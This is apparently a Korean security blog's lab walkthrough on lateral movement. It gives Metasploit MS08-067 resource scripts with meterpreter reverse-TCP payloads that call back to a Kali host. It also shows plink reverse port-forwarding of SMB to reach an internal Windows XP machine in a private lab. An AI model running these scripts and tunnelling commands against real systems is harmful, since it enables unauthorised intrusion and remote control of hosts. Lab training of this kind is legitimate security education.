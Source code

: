 ```yaml
---
title: 원격 서비스 공격과 측면 이동
author:
  name: Cotes Chung
  link: https://github.com/cotes2020
date: 2022-05-26 20:00:00 +0800
categories: [Blogging, Network]
tags: [getting started]
pin: false
---
```


## Step1. 환경 구성

---

### 환경 구성

환경 구성은 다음과 같다.

ip가 56번(내부) 대역에서 57번(외부) 대역으로 서비스에 접근할 수 있지만, 57번(외부) 대역에서 56번(내부) 대역으로는 서비스 접속이 안되게 설정한다.

![1](https://user-images.githubusercontent.com/59737252/170284643-3a53495b-bfc3-4dc4-8f44-a36d04208285.png){: width="90%"}

<br>

### 방화벽 구성하기 전 확인

우선 다음과 같이 방화벽을 꺼둔다. (공격이 확인되어야 하기 때문에)

![1](https://user-images.githubusercontent.com/59737252/170666044-6b0c1649-677e-4ae2-9577-8612f9ffffe5.png)

방화벽이 꺼져있기 때문에 다이렉트로 통신이 가능하다.

![2](https://user-images.githubusercontent.com/59737252/170667473-4001967a-3c6a-4fac-a406-2de8008c9eec.png){: width="50%"}

<br>

다음으로 공격 스크립트를 작성한다.

현재 이 스크립트는 공격하기 위함이 아닌, 공격이 제대로 되는지 확인하기 위한 <span style="background-color: #fff5b1">검증</span>이다.

> kali에서 진행한다.

> ms08_067_meterpreter_reverse_tcp.rc

```vim
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.56.20
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.57.10
exploit
```

<br>

공격이 성공적으로 되었다면 아래와 같이 뜰것이다.

![4](https://user-images.githubusercontent.com/59737252/170669309-34b38d44-af7b-48ab-91af-3c305c7e86b0.png)

<br>

만약 아래처럼 나왔다면?

다음과 같은 경우를 생각해봐야 한다.

- 시스템이 켜져 있는지 확인해야 한다.
- 핑이 잘 가는지 확인해봐야 한다. (192.168.57.10 -> 192.168.56.20)

![3](https://user-images.githubusercontent.com/59737252/170668257-20b3ed2c-d076-4b97-9b30-0e3944df67f5.png)

<br>

---

<br>

잘 되었다면, 방화벽은 다음과 같이 설정한다.

외부에서 내부로 서비스 거부하도록 설정한 것이다.

![2](https://user-images.githubusercontent.com/59737252/170301426-f3f817f4-70f7-4401-9747-f7870859072e.png)

<br>

## Step2. 세션 획득

---

msfconsole을 이용하여 윈도우 xp의 세션을 획득한 후 진행한다.

세션을 얻는 방법은 저번에 사용했던 방법을 참고하면 된다.

<br>

## Step3. 측면 이동

---

### plink 사용

kali에서 세션을 얻은 상태에서 다음 명령어를 입력한다.

```console
C:\WINDOWS\Temp> plink -R 8888:192.168.56.20:445 -l root -pw lab 192.168.57.10
```

접속할 윈도우(192.168.56.20)의 445번 포트(smb)를 사용하여 접속하는 명령어 이다.

실행 후 포트가 열려있는지 확인한다.

<span style="background-color: #fff5b1">lsof -i:8888</span> 또는 <span style="background-color: #fff5b1">netstat -atunp &#124; grep 8080</span> 으로 확인한다.

![7](https://user-images.githubusercontent.com/59737252/170676904-599ac8e5-e3f7-4d08-b137-64148d3359c5.png)

<br>

### 공격 스크립트 작성

> kali에서 진행한다.

> ms08_067_meterpreter_reverse_tcp_relay.rc

```vim
use exploit/windows/smb/ms08_067_netapi
set RHOST 127.0.0.1
set RPORT 8888
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.57.10
exploit
```

127.0.0.1:8888 을 통해 접속하면 192.168.56.20:445으로 포트 포워딩 되어 smb를 이용한 공격이 실행된다.

공격을 시도 했지만 아래처럼 나오게 될 경우

![5](https://user-images.githubusercontent.com/59737252/170674747-c86ae857-f687-4878-938c-99e5bf613cd8.png)

<center >or</center>

![6](https://user-images.githubusercontent.com/59737252/170676412-eb2d5316-349c-454b-b16d-e1af10da1f3c.png)

<center >or</center>

![plink오류](https://user-images.githubusercontent.com/59737252/174429424-7444c865-0ab4-4f03-877b-be5a2394672a.png)

- 칼리에서 ssh를 켰는지 확인한다.
  ```console
  kali# service ssh start
  ```
- 윈도우에서 칼리리눅스로 ping이 가는지 확인한다
  - (192.168.56.10, 192.168.56.20 -> 192.168.57.10)
- 윈도우끼리 핑이 가는지 확인한다.
  - (192.168.56.10 <-> 192.168.56.20)
- 핑이 안간다면 ncpa.cpl을 통해 네트워크 카드를 껐다가 다시 킨다.

![9](https://user-images.githubusercontent.com/59737252/170678143-4978af45-be4c-493d-91cd-a63c28920dcf.png) {: width="70%"}

<br>

위의 경우를 확인하였는데도 안되었다면

- (kali에서) fuser -k 8888/tcp
  - 8888번 포트를 죽인다.
- plink -R 8888:192.168.56.20:445 -l root -pw lab 192.168.57.10
  - plink를 다시 한다.
- 윈도우#2 를 재부팅 한다.
  - 다시 ping 확인( 안되면 네트워크 카드 껐다가 다시 킨다 )
- msfconsole을 다시 exploit 한다.

<br>

그러면 정상적으로 meterpreter 쉘을 얻을 수 있다.

![8](https://user-images.githubusercontent.com/59737252/170677854-af69ddf1-de96-45b2-80cd-09a24b128abc.png)
